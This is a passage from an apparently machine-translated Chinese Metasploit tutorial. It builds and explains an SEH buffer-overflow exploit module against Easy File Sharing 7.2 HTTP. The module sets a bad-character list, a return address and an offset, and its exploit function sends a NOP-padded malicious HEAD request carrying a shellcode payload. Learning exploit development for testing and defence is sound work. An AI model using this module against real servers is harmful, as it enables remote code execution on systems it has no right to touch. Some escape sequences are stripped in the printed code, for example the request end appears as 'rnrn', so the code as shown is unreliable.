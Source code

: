 ```
        }, 
      'Payload'        => 
        { 
          'Space'    => 390, 
          'BadChars' => "x00x7ex2bx26x3dx25x3ax22x0ax0dx20x2fx5cx2e", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Easy File Sharing 7.2 HTTP', { 'Ret' => 0x10019798, 'Offset' => 4061 } ], 
        ], 
      'DisclosureDate' => 'Mar 4 2018', 
      'DefaultTarget'  => 0)) 
  end 
```

在使用了各个模块的头部分之后，我们首先包括库文件的必需部分。接下来，我们像在前面的模块中一样定义类和模块类型。我们从定义名称、描述、作者信息、许可证信息、有效负载选项、披露日期和默认目标开始`initialize`部分。我们在`Ret`返回地址变量中使用 POP/POP/RET 指令的地址，在`Targets`字段下使用`Offset`作为`4061`。我们使用了`4061`而不是`4065`，因为 Metasploit 会自动生成外壳代码的短跳转指令；因此，我们将在`4065`字节之前开始 4 个字节，以便短跳转可以放置到下一个 SEH 记录地址的载波中。

在进一步讨论之前，让我们先看看我们将在模块中使用的基本函数。我们已经看到了`make_nops`、`connect`、`disconnect`和`handler`的用法：

| **功能** | **图书馆** | **用法** |
| `generate_seh_record()` | `/lib/msf/core/exploit/seh.rb` | 库 mixin 提供了生成 SEH 记录的方法。 |

让我们继续代码，如下所示：

```
def exploit 
  connect 
  weapon = "HEAD " 
  weapon << make_nops(target['Offset']) 
  weapon << generate_seh_record(target.ret) 
  weapon << make_nops(19) 
  weapon << payload.encoded 
  weapon << " HTTP/1.0rnrn" 
  sock.put(weapon) 
  handler 
  disconnect 
  end 
end 
```

`exploit`功能通过连接目标开始。接下来，它通过向`HEAD`请求添加`4061`NOP 来生成恶意`HEAD`请求。接下来，`generate_seh_record()`函数生成一个`8`字节`SEH`记录，其中前 4 个字节构成跳转到有效负载的指令。通常，这 4 个字节包含`\xeb\x0A\x90\x90`等指令，`\xeb`表示跳转指令，`\x0A`表示要跳转的`12`字节，`\x90\x90 NOP`指令完成 4 个字节的填充。

# 使用 NASM shell 编写组装指令

Metasploit 为使用 NASM shell 编写短汇编代码提供了一个极好的实用工具。我们在上一节中编写了一个小的汇编代码，`\xeb\x0a`，它表示 12 个字节的短跳转。但是，在消除了搜索 internet 或切换汇编操作代码的使用之后，我们可以使用 NASM shell 轻松地编写汇编代码。
